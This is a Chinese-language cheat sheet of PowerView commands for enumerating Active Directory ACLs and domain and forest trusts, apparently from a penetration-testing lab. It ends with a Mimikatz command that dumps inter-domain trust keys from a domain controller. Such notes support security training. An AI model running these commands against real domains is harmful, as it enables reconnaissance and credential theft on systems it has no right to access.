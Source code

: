 ## 获取与要用于搜索的指定 LDAP路径相关联的ACL
```
Get-ObjectAcl -ADSpath "LDAP://CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs - Verbose
```

## 搜索有趣的 ACEs
```
Invoke-ACLScanner -ResolveGUIDs
```

## 获取与指定路径关联的 ACL
```
Get-PathAcl -Path "\\dcorp-dc.dollarcorp.moneycorp.local\sysvol"
```


# 域Trust信息枚举
## 获取域的Trust
```
Get-NetDomainTrust

Get-NetDomainTrust -Domain dollarcorp.moneycorp.local


```

## 获取林的Trust
```
Get-NetForestTrust

Get-NetForestDomain -Verbose | Get-NetDomainTrust

Get-NetForestTrust –Forest eurocorp.local
```

## 枚举林中所有的External trusts（外部信任）
```
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq "External"}
```

## 枚举指定林中的所有信任关系
```
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust
```


##在DA权限的shell下枚举所有Trust tikets
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```

